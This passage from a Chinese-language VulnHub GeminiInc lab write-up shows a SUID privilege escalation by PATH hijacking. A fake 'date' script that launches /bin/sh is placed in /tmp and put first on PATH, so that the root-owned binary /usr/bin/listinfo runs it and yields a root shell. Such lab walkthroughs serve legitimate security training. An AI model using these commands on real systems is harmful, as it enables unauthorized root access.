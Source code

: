 这个文件的所有者为`root`，这样我们就可以修改环境变量中的`date`命令来以root的身份执行想要执行的代码

```shell
cd /tmp
echo "/bin/sh" > date
chmod 777 date
echo $PATH
export PATH=/tmp:$PATH
/usr/bin/listinfo
```

![](vulnhub-GeminiInc\13.png)

这样就借助suid的权限切换，成功获得到了root权限，最后的flag
